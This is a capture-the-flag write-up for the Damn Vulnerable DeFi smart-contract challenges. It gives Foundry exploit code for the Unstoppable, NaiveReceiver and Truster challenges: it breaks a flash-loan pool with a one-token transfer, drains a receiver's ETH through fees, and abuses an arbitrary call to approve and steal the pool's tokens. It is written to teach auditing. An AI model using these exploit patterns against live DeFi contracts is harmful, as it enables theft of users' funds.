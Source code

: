 # Damn Vulnerable Defi Foundry Writeup #

Hi, my name is Juan,  i wrote this writeup to help anybody interested in develop Smart contract auditing skills. I previously resolved other challenges as Ethernaut and CaptureTheEther so i recommend try them before get into this more advanced Defi challenges so i will asume you have a previous basic knowledge.

Any comments/corrections please reach me at my twitter account: **@devnet0x**

## Challenge 1: Unstoppable ##
We as attacker's must transfer 1 token to lender pool to create a difference between poolBalance and balanceBefore in this line from function flashloan():
        
        if (poolBalance != balanceBefore) revert AssertionViolated();
        
        

Then, nobody else will be able to borrow a flashloan:

```
   function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        // We (attacker) transfer 1 token to lender pool to create a difference
        // between poolBalance and balanceBefore in this line from function flashloan():
        //
        // if (poolBalance != balanceBefore) revert AssertionViolated();
        //
        dvt.transfer(address(unstoppableLender), 1 ether);
        vm.stopPrank();
        /** EXPLOIT END **/
        vm.expectRevert(UnstoppableLender.AssertionViolated.selector);
        validation();
    }
```

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/01_Unstoppable

## Challenge 2: NaiveReceiver ##

This time, you got to watch how is succesful challenge validated.

```
    function validation() internal {
        // All ETH has been drained from the receiver
        assertEq(address(flashLoanReceiver).balance, 0);
        assertEq(
            address(naiveReceiverLenderPool).balance,
            ETHER_IN_POOL + ETHER_IN_RECEIVER
        );
    }
```

So you can see that you need to transfer eth from receiver to lender. To do this, just call flashLoan function 10 times to transfer (consume)
all receiver ethers as fees. (Flashloan amount doesn't matter because fee is always 1 ETH)

```
    function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        vm.stopPrank();
        /** EXPLOIT END **/
        validation();
    }
```

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/02_NaiveReceiver

## Challenge 3: Truster ##

The steps to drain all tokens are: Call the flashLoan function asking to borrow 0 token, so we will not need to pay back anything. This is important because the attacker does not own any DVT token.

```
        vm.startPrank(attacker);
        uint256 borrowAmt = 0;
```
Call the flashLoan with target as the DVT token address to execute the call method on the Token contract itself
```
        address targetContract = address(dvt);
```
Construct the data payload to make the TrusterLenderPool to call the DVT approve method
```
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            attacker,
            1000000 ether
        );
```
Call flashloan
```
        trusterLenderPool.flashLoan(borrowAmt, attacker, targetContract, data);
```
Transfer all tokens to attacker
```
        dvt.transferFrom(address(trusterLenderPool), attacker, 1000000 ether);
        vm.stopPrank();
```
Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/03_Truster

## Challenge 4: SideEntrance ##

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/04_SideEntrance
